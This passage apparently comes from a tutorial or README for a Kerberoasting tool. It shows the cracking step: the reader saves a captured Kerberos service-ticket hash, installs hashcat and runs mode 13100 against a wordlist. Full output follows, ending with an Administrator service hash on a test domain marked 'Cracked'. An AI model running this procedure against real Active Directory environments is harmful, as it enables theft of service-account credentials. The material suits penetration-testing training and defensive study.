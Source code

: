 ```
tickets written: 1
```

Copy the above hash to a file called hash.txt.

Ensure hashcat is installed: `msfuser@ubuntu:~/git/kerberoast$ sudo apt install hashcat`

With a word list of your choice run the following command:

```
msfuser@ubuntu:~/git/kerberoast$ hashcat -m 13100 --force -a 0 hash.txt wordlist.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-9750H CPU @ 2.60GHz, 16384/41063 MB allocatable, 6MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64
 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3
 -D DGST_ELEM=4 -D KERN_TYPE=13100 -D _unroll'
 
* Device #1: Kernel m13100_a0-pure.64a04b9e.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: wordlist.txt
* Passwords.: 3
* Bytes.....: 33
* Keyspace..: 3
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
<truncated due to size>

Session..........: hashcat
Status...........: Cracked
```